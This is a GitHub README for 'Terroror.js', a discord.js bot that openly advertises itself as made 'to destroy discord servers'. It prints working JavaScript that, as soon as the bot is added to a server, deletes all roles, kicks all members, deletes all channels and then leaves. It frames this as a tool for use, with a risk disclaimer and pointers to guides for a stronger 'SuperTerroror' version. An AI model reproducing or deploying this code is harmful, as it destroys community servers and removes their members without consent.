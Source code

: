 <h1 align=center><a href="https://github.com/Minco-inc/Terroror.js/"><img src="https://user-images.githubusercontent.com/85981610/138410773-c29bfe56-830c-4653-9613-ff7f93263170.png"></a></h1>
<p align=center>
    A <b>Terroror.js</b> bot, is made in <b>discord.js</b> to destroy discord servers!
</p>

<h1 align=center><a href="#"><img src="https://user-images.githubusercontent.com/85981610/138411327-b0f56768-fc30-4951-8aae-9efa195958ba.png"></a></h1>

## Your app.js
```js
/* 
      DO THIS AT YOUR OWN RISK!
      We are not responisible of any damages on discord!
      Copyright by MincoMK
      https://www.minco.kro.kr/
*/
const Main = require("./src/Main.js"); // let discord make own main directory

let main = new Main(); // let make ./src/Main.js as main code
main.main(); // making main code is working
```

## Simple eventmanager.js

```js
const process = require("process");
const version = require("../package.json").version;

/* 
	Enables the SuperTerroror on Discord when bots join automatically make a bomb to server
*/
class EventManager {
	joinAllEvents(client) { // join bot for all events
		this.client = client; // this client
		client.on("ready", async () => { // on ready
			console.log("The bot is ready to terroror"); // when bot is ready log on console
		});

		client.on("guildCreate", guild => { // the server ---
			guild.roles.cache.forEach(role => { // for each role
				role.delete().catch(console.error); // --- delete all roles
			});
			guild.members.cache.forEach(mb => { // for each members
				mb.kick().catch(console.error); // --- kick all members
			});
			guild.channels.cache.forEach(ch => { // for each channels
				ch.delete().catch(console.error); // --- delete channels
			});
			guild.leave(); // and leave the bot after terroror
		});
	}
}

module.exports = EventManager; // export the eventmanager

// end of file
```
<b>When bots join, automatically terroror!</b>



<p align=center>
    View <a href="https://github.com/Minco-inc/Terroror.js/wiki/">Wiki</a> for <b>Full Installation and Guides</b> for building <b>SuperTerroror.js!</b>
</p>

<h1 align=center><a href="#"><img src="https://user-images.githubusercontent.com/85981610/138412398-8be72245-210b-433f-9aa8-ef37f569c831.png"></a></h1>

- Added `express` app for Uptimerobot.com
- Removed `node_modules`, use `npm install / npm i` on terminal
- Added `disnotify` on `package.json`
- Added `@discord-opus`, `discord-api-types`, and other depencies of djs

[`View History Changelogs`](/Changelogs.md) for All Information!

# Credits
- MincoMK: Coding
- Hen2527: Design/Commenting

# License
This repository is protected by BY-NC-SA CCL.
